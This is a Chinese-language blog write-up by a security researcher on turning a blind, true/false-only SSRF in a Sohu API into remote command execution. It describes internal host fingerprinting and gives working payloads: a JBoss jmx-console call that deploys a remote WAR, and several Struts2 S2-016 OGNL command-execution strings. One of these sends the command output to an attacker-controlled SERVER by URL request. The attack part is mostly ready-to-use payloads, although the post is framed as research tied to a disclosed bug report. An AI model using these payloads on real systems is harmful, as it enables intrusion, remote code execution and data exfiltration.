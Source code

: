 ### Bool型SSRF的思考与实践

	0x00 Bool型SSRF 
	0x01 SSRF利用的基本思路
	0x02 两者之间的区别
	0x03 Bool型SSRF利用方法
	0x04 Struts2在Bool型SSRF中的利用
	0x05 Other(想到什么写什么)

#### 0x00 Bool型SSRF
什么是Bool型SSRF, 没听说过. 其实我也没有听说过. 只是我也不知道该怎么描述就起了这样一个名称.

Bool型SSRF: 简单来说就是仅返回True 或 False的SSRF. 就以我前两天我挖掘的一个搜狐SSRF为例, 只有服务器端正确响应HTTP请求并且只有响应码为200的时候, 返回Success，其余全部返回Failed. 这就是一个典型的Bool型SSRF.

#### 0x01 SSRF利用的基本思路
Wooyun上有很多SSRF典型的案例, 可以说让人拍案惊奇. 但是没有一个关于BOOL型SSRF的利用案例(可能我没看到吧). 这次挖掘到一个搜狐的Bool型SSRF, 对于我这个只是简单理解SSRF原理没有任何实战的渣渣来说, 难度还真大. 不过想想, 以前没有接触过SSRF, 这次就把你玩透. 翻阅学习Wooyun上的案例, 了解SSRF利用的基本思路:

	内网探测 -> 应用识别 -> 攻击Payload -> Payload Result

1. 内网探测: 内网主机信息收集
2. 应用识别: 主机应用识别(可以通过Barner和应用指纹进行识别)
3. 攻击Payload: 根据应用识别的应用,加载不同的攻击Payload(最常用莫属于Struts2)
4. Payload Result: 返回相应Payload的执行信息

#### 0x02 两者之间的区别
BOOL型SSRF与一般的SSRF的区别在步骤二应用识别, 步骤三攻击Payload和步骤四Payload Result. 一般的SSRF在应用识别阶段返回的信息相对较多, 比如Banner信息, HTTP Title信息,更有甚的会将整个HTTP的Reponse完全返回, 而Bool型SSRF的却永远只有True or False. 因为没有任何Response信息, 所以对于攻击Payload的选择也是有很多限制的, 不能选择需要和Response信息交互的Payload. 在此次搜狐SSRF的中, 我分别使用了JBOSS远程调用和Struts2 S2-016远程命令执行. 对于Bool型SSRF, 我们不能说Payload打过去就一定成功执行, 就算是返回True, 也不能保证Payload一定执行成功. 所以我们要验证Payload的执行状态信息.

#### 0x03 Bool型SSRF利用方法
**应用识别**

	{ 指纹1 + 指纹2 + 黑指纹 }

以JBOSS为例: { /jmx-console/ + /invoker/JMXInvokerServlet + /d2z341.d#211 }

指纹1 和 指纹2 为应用识别指纹, 准确率越高越好. 黑指纹其实就是不会匹配任何应用的指纹，一般用较长的字符串代替即可. 分别用指纹1, 指纹2 和 黑指纹对内网主机探测统计, 获取三个主机列表: jmx-console.host(A)    invoker.host(B)    black.host(C). 

Host = (A∩B) –(A∩B∩C) 即剔除jmx-console.host 和 invoker.host中存在于black.host的主机, 然后对jmx-console和invoker.host的主机取交集.

**攻击Payload**

针对不用的应用我们需要加载不同的Payload, 但是大多数的攻击都是需要和Payload Result进行交互的. 这类Payload是没有办法用在此处的, 我们需要的是不需要和Payload Result进行交互的Payload. 我可以想到的两种应用比较广泛的Payload有JBOSS和Struts2漏洞.

JBoss Payload:

`/jmx-console/HtmlAdaptor?action=invokeOp&name=jboss.system%3Aservice%3DMainDeployer&methodIndex=3&arg0=http%3A%2F%2F192.168.1.2%2Fzecmd.war`

通过JBOSS HtmlAdaptor接口直接部署远程war包, 我们可以通过access.log去验证war包是否成功部署.下面就是通过SSRF去执行不同的命令.还有一种方式,就是我们可以通过我们服务器的access.log日志获取到远程服务器对应的公网IP, 有时也会有一些意外惊喜.

Struts2 Payload:

`/action?action:%25{%23a%3d(new%20java.lang.ProcessBuilder(new%20java.lang.String[]{'command'})).start()}`

Struts2漏洞的影响大家都懂的, 通过URL直接远程命令执行, 想打那里就打那里.

**Payload Result**

获取Payload Result是十分有必要的, 这里的Payload Result和非Bool型SSRF的Result不是一个意思. 对于Bool型SSRF, 服务器端返回的数据永远只有True和False, 我们是可以通过返回的True或者False来判断Payload的执行状态, 但是这样的判断标准是无法让人信服的. 能否有一种方法能够精确的判断Payload的执行状态,而且能够返回Payload Result. 对于Struts2我找到了一种可利用的方法.

#### 0x04 Struts2在Bool型SSRF中的利用
下面是S2-016的POC:

	/action.action:%25{3*4}
	/action.action?redirect:%25{3*4}

通过对连个POC的理解, 我们知道下面的POC中的redirect是实现URL跳转, 通过URL跳转来验证S2-016漏洞.
![Struts2-redirect](./Res/Struts2-redirect.png)

当然也可以通过 "?redirect:http://www.baidu.com" 来验证. 那么我们是否可以通过 "?redirect:http://SERVER/%25{3*4}" 将%25{3*4}的执行结果作为SERVER的URL的一部分发送到远端服务器, 通过实验我们证实了这样的想法.
![Struts2-redirect-to-remote](./Res/Struts2-redirect-to-remote.png)

下面我们尝试S2-016的命令执行POC,执行结果如下:

`?redirect:%25{%23a%3d(new%20java.lang.ProcessBuilder(new%20java.lang.String[]{'command'})).start()}`

![Struts2-exec](./Res/Struts2-exec.png)

特此说明一下, 这里返回java.lang.ProcessImpl@xxxxxx表示命令执行成功, 将命令执行的结果通过redirect跳转输出到远程服务器.

`?redirect:http//SERVER/%25{%23a%3d(new%20java.lang.ProcessBuilder(new%20java.lang.String[]{'whoami'})).start()}`

![Struts2-remote-exec](./Res/Struts2-remote-exec.png)

由服务器端Access日志可以看出, 命令执行成功

![Struts2-access-log](./Res/Struts2-access-log.png)

其实通过上面的这种方式,我们已经完全能够准确的判断Payload Result的执行状态, 但是这不是我要的, 我想要Payload Result执行结果. 

带回显的POC:

`?redirect:${%23a%3d(new%20java.lang.ProcessBuilder(new%20java.lang.String[]{'whoami'})).start(),%23b%3d%23a.getInputStream(),%23c%3dnew%20java.io.InputStreamReader(%23b),%23d%3dnew%20java.io.BufferedReader(%23c),%23e%3dnew%20char[50000],%23d.read(%23e),%23matt%3d%23context.get('com.opensymphony.xwork2.dispatcher.HttpServletResponse'),%23matt.getWriter().println(%23e),%23matt.getWriter().flush(),%23matt.getWriter().close()}`

![Struts2-ssrf](./Res/Struts2-ssrf.png)

将命令执行结果Redirect到远程:

![Struts2-ssrf2](./Res/Struts2-ssrf2.png)

我们可以看到本地浏览器可以打印出结果,但是远程Access.log不会有任何日志. 对Java懂一点点的人都知道(比如我,对Java略懂一点点), 这里的POC的作用就是本地打印,所以肯定是不行的. 下一步我们就需要更改POC , 因为对Java不熟, 为此花费了大半天的时间,写下下面的POC:

`?redirect:${%23a%3d(new%20java.lang.ProcessBuilder(new%20java.lang.String[]{'command'})).start(),%23b%3d%23a.getInputStream(),%23c%3dnew%20java.io.InputStreamReader(%23b),%23d%3dnew%20java.io.BufferedReader(%23c),%23t%3d%23d.readLine(),%23u%3d"http://SERVER/result%3d".concat(%23t),%23http%3dnew%20java.net.URL(%23u).openConnection(),%23http.setRequestMethod("GET"),%23http.connect(),%23http.getInputStream()}`

SERVER是我们的HTTP服务器IP地址, 我们获取命令执行结果,然后把他作为一个URL参数发送到远程SERVER上, 所以我们可以在远程SERVER的access.log看到命令的执行结果.

![Struts2-ssrf3](./Res/Struts2-ssrf3.png)

远程服务器日志:

![Struts2-ssrf4](./Res/Struts2-ssrf4.png)

至此, 我们完成了从一个BOOL型的SSRF转换为一个普通的SSRF,我们可以获取到任何Payload的执行结果, 我只能说这是一个质的飞跃.

说明: 对于文中浏览器中执行的返回信息,我们仅仅是在做测试,对于BOOL型SSRF这些信息对我们是不可见的, 我们能看到的仅仅是Server端的access.log日志.

#### 0x05 Other(想到什么写什么)
Bool型SSRF的其他利用方式-反射性XSS也是一种可利用的思路,不过挖掘的难度相对较大

此文是对搜狐SSRF漏洞利用过程中的一些思考,实践和总结.

这可以说是我的SSRF处女洞, 和此文章关联的漏洞”搜狐某云服务API接口导致SSRF/手工盲打到Struts2命令执行” http://wooyun.org/bugs/wooyun-2015-0129588 , 因为抱着学习的态度, 漏洞报告写的非常详细,而且有很多技巧在文章中没有提及. 当然也有很多YY的想法, 想拍砖的就来拍砖吧.

------------------------------------------------------------------------------------------------------------------------  By KaiyiZhang   2015.08.04
